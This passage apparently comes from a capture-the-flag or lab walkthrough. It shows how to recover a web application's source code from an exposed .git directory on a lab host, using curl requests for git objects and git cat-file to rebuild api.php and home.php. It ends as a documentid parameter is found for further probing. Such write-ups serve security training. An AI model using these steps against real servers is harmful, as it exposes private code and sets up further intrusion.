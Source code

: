 ```bash
curl -s -X GET http://10.10.143.101/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f -o c9539b6566b06d6dec2755fdf58f5f9ec8822f
```

Finally, use the command `git cat-file -p` to review the content of the downloaded file. Here is a reference image for this process:

![Reference Image](reference_image.png)

This creates a tree that allows us to access updated files in the system.

We will now create a folder in `.git/objects` using the command `mkdir 51`. Then, we access this folder

 and make a GET request using curl to download a file with the information we need. The complete command is as follows:

```bash
curl -s -X GET http://10.10.143.101/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba -o d63292792fb7f97728cd3dcaac3ef364f374ba
```

Once the file is downloaded, we use the `cat-file -p` command to review its contents.

It is likely that these files contain relevant information, so we will download `api.php` and `home.php` in the same way as before. To do this, we create a new folder in `.git/objects` with the command `mkdir 22`. Then, we access this folder and make a GET request using curl to download the desired file. The command is as follows:

```bash
curl -s -X GET http://10.10.143.101/.git/objects/22/29eb414d7945688b90d7cd0a786fd888bcc6a4 -o 29eb414d7945688b90d7cd0a786fd888bcc6a4
```

We then use the `cat-file -p` command to review the contents of the downloaded file. The complete command is:

```bash
git cat-file -p 2229eb414d7945688b90d7cd0a786fd888bcc6a4 > ../../../../api.php
```

In this way, we can obtain valuable information from the system.

We will create a new directory in `.git/objects` using the command `mkdir 2a`. Then, we will perform a GET request on the directory `2a` using the command:

```bash
curl -s -X GET http://10.10.143.101/.git/objects/2a/116a56a6e31ef1836796936dbc05af1f986a26 -o 116a56a6e31ef1836796936dbc05af1f986a26
```

Afterwards, we will use the command `git cat-file -p` to view the contents of the file.

```bash
git cat-file -p 2a116a56a6e31ef1836796936dbc05af1f986a26 > ../../../../home.php
```

Once we have reviewed the `home.php` file, we can observe: `href="api.php?documentid='`. We then decide to try that address in the browser using the following URL:
